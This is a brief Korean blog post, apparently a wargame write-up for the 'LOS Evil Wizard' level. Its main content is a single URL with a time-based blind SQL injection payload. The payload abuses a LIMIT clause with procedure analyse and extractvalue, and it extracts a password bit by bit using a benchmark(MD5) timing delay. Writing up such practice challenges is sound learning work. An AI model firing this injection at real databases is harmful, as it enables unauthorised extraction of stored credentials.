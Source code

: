 ```yaml
---
layout: post
title: LOS Evil Wizard 
date: 2015-08-16 23:14:00 +0900
category: Hacking 
---
```




```
http://leaveret.kr/los/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?limit=1%20procedure%20analyse(extractvalue(1,concat(0x3a,(select%20(if(substr(lpad(bin(ord(substr((select%20pw%20from%20probevilwizard%20limit%201,1),"+str(j)+",1))),8,%270%27),"+str(i)+",1),benchmark(16000000,MD5(CHAR(118))),2))))),1)%23
```



전 문제랑 똑같음 다만 Time Base 여서 benchmark로 풀어야한다 

진우한테 받은 풀이같은데 앞으로 더 갈궈야지 ㅋㅋㅋㅋㅋㅋ



